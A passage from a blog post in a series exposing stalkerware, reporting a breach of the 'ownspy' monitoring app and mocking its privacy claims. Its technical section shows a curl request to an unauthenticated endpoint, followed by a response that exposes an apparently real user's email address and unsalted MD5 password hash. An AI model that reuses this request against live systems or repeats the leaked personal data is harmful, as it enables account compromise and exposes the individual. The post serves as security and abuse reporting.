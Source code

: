 ```yaml
---
title: "#FuckStalkerware pt. 3 - ownspy got, well, owned"
date: 2023-08-25
changed_date: 2023-09-13
description: "more like ownedspy amiright"
feature_image: /img/posts/fuckstalkerware-3/cover.jpg
feature_alt: "screenshot of the start of a file called README.txt, there is big ascii textart reading 'ownedspy', and text below reads 'ownspy is REALLY REALLY owned!!! #fuckstalkerware #antisec #acab' and 'The #fuckstalkerware games continue. Another one bites the dust.'"
tags:
    - "#FuckStalkerware"
    - stalkerware
    - research
    - analysis
    - leak
    - sqli
    - exploit
content_warnings:
    - mentions of abuse/controlling behaviour
---
```


> the intro to this series and the concept of stalkerware can be found [here](/posts/fuckstalkerware-0/)

we continue our series on stalkerware with a write-up and batch of data [sent to me](/contact) by a source last night. this time it is the brazilian [ownspy](https://en.ownspy.com) (aka webdetective and saferspy, by [mobileinnova](http://www.mobileinnova.com)) that has been completely hacked. among other things ownspy claims to be the #1 most privacy focused "parental control app" allegedly featuring E2E encryption, if this sounds too good to be true that's because it mostly is, but more on that later.

![a text box on a landing page reading: The Most Privacy Focused Parental Control App. OwnSpy is the #1 Parental Control App with E2E Encryption. Since its inception OwnSpy started to encrypt everything on the device. Once you register your account a new key is generated and encrypted with your password. This key is stored only on your device so it will be used to encrypt all your data before being uploaded to OwnSpy servers. We do not have and do not want to have access to your data, so we only store this key on your device. In other words: there is no way to access your data without your personal password. As a result, you should never share your password with anyone, not even us. Like us, Apple always believed that your data belongs only to you.](/img/posts/fuckstalkerware-3/privacy-claims.jpg)

(i do also think there is something especially distasteful about reading "your data only belongs to you" on the website for a hidden spyware)

## the technical stuff

the [write-up](/files/posts/fuckstalkerware-3/README.txt) (which most of this section is a paraphrased, and hopefully somewhat simplified, retelling of) starts off with signing up for a free trial and reverse engineering the mobile app. which lead them to fairly quickly find an endpoint called with merely the generated device id which returns the user accounts email address and password hash (unsalted md5):

```bash
curl 'https://6287970dd9.era3000.com/server/?cmd=isreg&id=d41d8cd98f00b204e9800998ecf8427e'
```

```json
{
  "registered": 1,
  "email": "martinsalan578@gmail.com",
  "account_type": "3",
  "tracking": 0,
  "trackingrate": 120,
  "checkrate": 120,
  "userpass": "30d8696be94bed700c6e85f219f7db5b",
[...]
```
